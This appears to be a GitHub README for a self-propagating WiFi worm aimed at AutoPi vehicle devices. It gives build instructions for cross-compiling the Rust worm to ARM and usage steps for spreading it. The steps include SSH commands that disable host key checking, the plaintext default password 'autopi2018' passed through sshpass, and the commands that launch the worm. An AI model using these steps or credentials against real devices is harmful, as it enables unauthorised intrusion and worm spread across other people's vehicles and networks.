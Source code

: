 # AutoPi WiFi Computer Worm
> This is a computer worm that spreads over WiFi using the default credentials of the AutoPi-hotspot
The computer worm is so far only tested on Gen 2 and Gen 1 AutoPis. The instructions below is for this version of AutoPis

## Installation

**Linux**:\
To be able to build the worm for Raspiberry Pi Zero W you need to be able to cross-compile on x86_64/x86 Linux to ARMv6.

First install the correct target for Rust. This is easiest done using [rustup](https://rustup.rs/) (Rusts own package manager):

```sh
rustup target add arm-unknown-linux-gnueabihf
```
(arm-unknown-linux-gnueabi also works)

Then install a linker for cross-compilation to armV6. You can use the [raspberrypi/tools repo](https://github.com/raspberrypi/tools/tree/master/arm-bcm2708) for this, which is a cross-compiler version of GCC inteded for x86_64 Linux to compile to armV6.
(Not the whole git repository is neccesary only arm-bcm2708)

For rustup install of Rust:\
Add to $HOME/.cargo/config
```sh
[target.arm-unknown-linux-gnueabihf]
linker = "<Path to excutable rpi tools for hardware floating point>"
```

Arch Linux has an AUR package for the cross-compiler: arm-bcm2708-linux-gnueabi
With this package on Arch Linux $HOME/.cargo/config should contain:

```sh
[target.arm-unknown-linux-gnueabihf]
linker = "/usr/bin/arm-bcm2708hardfp-linux-gnueabi/gcc"
```
(Similar configuration for arm-unknown-linux-gnueabi is also possible and the non-hardfp linker is included in the same repo)

For automatic infection/building cargo-make is required. This is installed by running:
```sh
cargo install cargo-make
```

## Usage

**Start worm on AutoPi**:\
To start worm log onto the WiFi of an AutoPi. Then run the '''start_infection.sh''' script.
SSH to the AutoPi (this requires cargo-make for automatic building of the worm):
```sh
ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no pi@192.168.4.1
```
or
```sh
sshpass -p 'autopi2018' ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no pi@192.168.4.1
```
if using sshpass.

Start worm by running ` sudo setsid ./start.sh & ` in /home/pi (default folder).

**Remove worm**:\
Remove worm by SSH-ing to the infected AutoPi:
```sh
ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no pi@192.168.4.100
```
or
```sh
sshpass -p 'autopi2018' ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no pi@192.168.4.100
```

Then run ` sudo setsid ./remove_worm.sh & ` in /home/pi.


